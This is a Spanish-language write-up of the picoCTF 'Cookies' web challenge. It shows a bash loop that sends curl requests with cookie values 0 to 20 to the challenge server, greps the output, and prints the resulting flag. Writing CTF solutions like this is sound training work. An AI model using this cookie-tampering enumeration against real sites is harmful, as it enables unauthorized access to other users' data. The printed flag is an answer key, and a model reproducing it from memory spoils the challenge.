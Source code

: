 ## Descripción: 
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)

**Pistas:**

## Solución:
1. Al parecer esta pagina usa cookies:

![Pasted image 20230319114838](Pasted%20image%2020230319114838.png)

2. Tal parce que la pagina devuelve distintas respuestas dependido el valor de la cookie (el valor de la cookie es un numero entero).

![Pasted image 20230319115223](Pasted%20image%2020230319115223.png)

3. Realizamos un `crul` a la pagina para enviarle distintos valores para la cookie y así obtener la flag:

```bash
┌──(kali㉿kali)-[~]
└─$  for i in {0..20}; do curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
┌──(kali㉿kali)-[~]
└─$
```

### Flag: picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}

## Notas adicionales:
| Comando | Descripción |
| --- | --- |
| curl | Curl es una herramienta de línea de comandos de Linux que sirve para transferir datos hacia o desde un servidor con URL, utilizando cualquiera de los protocolos soportados (HTTP, FTP, POP3, IMAP, SMTP, SCP, SFTP, TFTP, TELNET, LDAP…). |

## Referencias:
-  https://www.xataka.com/basics/que-cookies-que-tipos-hay-que-pasa-desactivas